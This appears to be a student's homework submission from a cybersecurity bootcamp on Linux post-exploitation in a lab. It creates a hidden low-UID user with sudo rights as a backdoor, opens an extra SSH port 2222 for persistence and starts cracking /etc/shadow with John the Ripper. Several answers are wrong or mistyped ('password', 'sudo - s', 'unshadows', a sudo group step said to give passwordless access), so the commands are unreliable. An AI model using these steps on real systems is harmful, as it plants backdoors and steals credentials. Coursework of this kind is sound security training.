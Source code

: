 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - sudo adduser sysd --no-create-home

2. Give your secret user a password: 
    - password

3. Give your secret user a system UID < 1000:
    - sudo usermod -u 444 sysd

4. Give your secret user the same GID:
   - sudo groupmod -g 444 sysd

5. Give your secret user full `sudo` access without the need for a password:
   -  usermod -aG sudo sysd

6. Test that `sudo` access works without your password:

    sudo -l

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    Port 22
    Port 2222

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - service sshd restart

2. Exit the `root` account:
    - exit

3. SSH to the target machine using your `sysd` account and port `2222`:
    - ssh sysd@192.168.6.105 -p 2222

4. Use `sudo` to switch to the root user:
    - sudo -s

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - ssh sysd@192.168.6.105 -p 2222

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    sudo - s

    cd /etc/ 

    unshadows /etc/passwd /etc/shadow > unshadowed

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

